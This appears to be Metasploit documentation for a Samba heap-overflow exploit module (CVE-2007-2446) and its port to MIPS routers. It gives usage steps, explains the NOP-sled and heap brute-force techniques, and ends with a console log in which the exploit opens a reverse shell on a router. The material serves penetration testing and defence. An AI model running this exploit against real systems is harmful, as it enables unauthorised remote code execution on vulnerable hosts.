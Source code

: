 ## Vulnerable Application

  Samba 3.0.0 through 3.0.25rc3 are vulnerable to mulitple heap overflows. This module targets a heap overflow in the LsarLookupSids RPC call (CVE-2007-2446), causing an overflow in the function lsa\_io\_trans_name(). 
  The exploit uses the heap overflow to overwrite a function pointer contained in the metadata of the TALLOC memory allocator, a technique which only works on Samba versions 3.0.21-3.0.24.

## Verification Steps

  1. Start msfconsole
  2. Do: `use exploit/linux/samba/lsa_transnames_heap`
  3. Do: `show targets` to see the possible targets
  4. Do: `set target #`
  5. Do: `set rhost`
  6. Do: `exploit`

## MIPS port

  This module was ported to exploit the MIPS architecture. After creating a suitable debugging environment using qemu to emulate Samba on a desktop PC the following steps were required:

### MIPS nop generator

  The exploit uses a heap overflow to put a large nop sled in memory to decrease the accuracy needed in the initial redirection of code flow. A nop sled is a large section of contiguous instructions which do nothing. When code flow is redirected to a nop sled it will continue executing the effectless nops. At the end of the sled the true payload is added and execution will eventually hit this code.
  A nop generator module was created for MIPS by creating a stream of random instructions which create no side-effects e.g. `sll $2, $2, 0`
  
### Heap address bruteforce

  The exploit uses a brute force approach to minimise problems with unpredictability in heap layout. The exploit itself is run multiple times, each time targetting a different point in the heap with the change of execution flow. If all goes correctly then the nop sled will be hit and code execution will follow. If the nop sled is missed then the Samba process is likely to crash, which is generally not a problem as a new instance is forked for each incoming connection. In the event of a crash a new heap address is chosen and exploitation is attempted again. 
  When porting the exploit to a new system the approximate heap layout must be known in order to suitably attempt exploitation across all of the possible heap locations. As the MIPS port targetted a specific router the heap layout was determined by examining the ranges identified in _/proc/<pid>/maps_

## Scenarios

    msf > use exploit/linux/samba/lsa\_transnames_heap 
    msf exploit(lsa\_transnames_heap) > set target 7
    target => 7
    msf exploit(lsa\_transnames_heap) > set rhost 192.168.1.1
    rhost => 192.168.1.1
    msf exploit(lsa\_transnames_heap) > show options

    Module options (exploit/linux/samba/lsa\_transnames_heap):

       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       RHOST    192.168.1.1      yes       The target address
       RPORT    445              yes       The SMB service port
       SMBPIPE  LSARPC           yes       The pipe name to use


    Exploit target:

       Id  Name
       --  ----
       7   Linux Heap Brute Force (OpenWRT MIPS)


    msf exploit(lsa\_transnames_heap) > exploit

    [*] Started reverse TCP handler on 192.168.1.3:4444 
    [*] 192.168.1.1:445 - Creating nop sled....
    [*] 192.168.1.1:445 - Trying to exploit Samba with address 0x55900000...
    [*] 192.168.1.1:445 - Connecting to the SMB service...
    [*] 192.168.1.1:445 - Binding to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Bound to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Calling the vulnerable function...
    [*] 192.168.1.1:445 - Server did not respond, this is expected
    [*] 192.168.1.1:445 - Trying to exploit Samba with address 0x5590f000...
    [*] 192.168.1.1:445 - Connecting to the SMB service...
    [*] 192.168.1.1:445 - Binding to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Bound to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Calling the vulnerable function...
    [*] 192.168.1.1:445 - Server did not respond, this is expected

    ...Some intermediate attempts ommitted...

    [*] 192.168.1.1:445 - Trying to exploit Samba with address 0x55996000...
    [*] 192.168.1.1:445 - Connecting to the SMB service...
    [*] 192.168.1.1:445 - Binding to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Bound to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Calling the vulnerable function...
    [*] 192.168.1.1:445 - Server did not respond, this is expected
    [*] 192.168.1.1:445 - Trying to exploit Samba with address 0x559a5000...
    [*] 192.168.1.1:445 - Connecting to the SMB service...
    [*] 192.168.1.1:445 - Binding to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Bound to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Calling the vulnerable function...
    [*] Command shell session 1 opened (192.168.1.3:4444 -> 192.168.1.1:4175) at 2016-10-31 14:00:33 +0000

    uname -a
    Linux WNR2200 2.6.15 #1 Mon Dec 23 15:58:24 CST 2013 mips unknown

